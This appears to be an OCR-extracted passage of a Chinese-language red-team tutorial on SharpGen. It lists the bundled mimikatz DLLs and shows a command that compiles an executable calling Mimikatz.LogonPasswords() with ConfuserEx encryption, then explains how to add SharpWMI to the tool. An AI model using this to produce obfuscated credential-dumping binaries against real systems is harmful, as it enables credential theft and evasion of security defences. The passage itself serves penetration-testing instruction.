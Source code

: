 - powerkatz_x64.dll为64位的mimikatz
- powerkatz_x64.dll.comp为使用System.IO.Compression库压缩后的64位的mimikatz
- powerkatz_x86.dll为32位的mimikatz
- powerkatz_x86.dll.comp为使用System.IO.Compression库压缩后的32位的mimikatz

#### (3)使用ConfuserEx资源保护

ConfuserEx资源保护会对资源进行加密和LZMA压缩

示例命令如下：

```
dotnet bin/Release/netcoreapp2.1/SharpGen.dll -f example.exe --confuse confuse.cr "Console.WriteLine(Mimikatz.LogonPasswords());"
```

### 2.调用其他开源库

参考资料中未介绍这部分内容，这里给出我的解决方法

这里给出两个示例，一个是开源的[SharpWMI](https://github.com/GhostPack/SharpWMI)，另一个是我自己编写的模板SharpTest

#### 1.添加对SharpWMI的调用

(1)将SharpWMI源码复制到`SharpGen/Source`

(2)修改`SharpGen/SharpGen.csproj`

ItemGroup标签中添加`<Compile Remove="Source\SharpWMI\Program.cs" />`

否则在编译SharpGen时会报错提示：

```
Source\SharpWMI\Program.cs(3,14): error CS0234: The type or namespace name 'Management' does not exist in the namespace 'System' (are you missing an assembly reference?)
```

(3)修改SharpWMI的源代码

只保留Program.cs，删除其中的Main函数并且将Program.cs中的每个静态方法改为公共方法

例如：

`static void LocalWMIQuery(string wmiQuery, string wmiNameSpace = "")`需要修改为`public static void LocalWMIQuery(string wmiQuery, string wmiNameSpace = "")`

(4)重新编译SharpGen

命令如下：

```
dotnet build --configuration Release
```

(5)调用测试

example.txt的功能为调用SharpWMI中的`LocalWMIQuery`方法查询`win32_ComputerSystem`，内容如下：

```
SharpWMI.Program.LocalWMIQuery("select * from win32_ComputerSystem");
Console.WriteLine(Host.GetProcessList());
```
